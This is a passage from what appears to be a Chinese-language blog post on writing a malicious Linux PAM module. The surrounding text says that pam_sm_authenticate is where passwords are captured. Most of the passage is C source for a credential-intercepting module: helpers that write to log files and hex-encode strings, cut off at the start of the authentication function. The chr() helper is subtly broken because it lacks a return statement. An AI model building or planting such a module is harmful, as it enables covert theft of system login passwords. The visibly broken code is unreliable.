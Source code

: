 ![](https://blog.ryzezr.com/usr/uploads/2021/05/2504756272.png)



在PAM源码中，pam_sm_authenticate函数对应认证服务，在这里截获密码。

```c
#define PAM_SM_AUTH
#include <security/pam_appl.h>
#include <security/pam_modules.h>
#include <syslog.h>
#include <stdarg.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

static void _pam_log(int err, const char *format, ...) {
    va_list args;
    va_start(args, format);
    // openlog("pam_authx", LOG_CONS|LOG_PID, LOG_AUTH);
    vsyslog(err, format, args);
    va_end(args);
    closelog();
}

static void _write_log(char *path, char *content) {
    FILE *fp;
    fp=fopen(path,"a");
    fprintf(fp,"%s\n", content);
    fclose(fp);
}

char chr(int value) {
    char result = '\0';
    if(value >= 0 && value <= 9) {
        result = (char)(value + 48);
    } else if(value >= 10 && value <= 15) {
        result = (char)(value - 10 + 65);
    } else {
        ;
    }
}

static int str_to_hex(char *ch, char *hex) {
    int high,low;
    int tmp = 0;
    if(ch == NULL || hex == NULL) {
        return -1;
    }
    if(strlen(ch) == 0) {
        return -2;
    }
    while(*ch) {
        tmp = (int)*ch;
        high = tmp >> 4;
        low = tmp & 15;
        *hex++ = chr(high);
        *hex++ = chr(low);
        ch++;
    }
    *hex = '\0';
    return 0;
}

int pam_sm_authenticate(pam_handle_t *pamh, int flags, int argc, const char **argv) {
```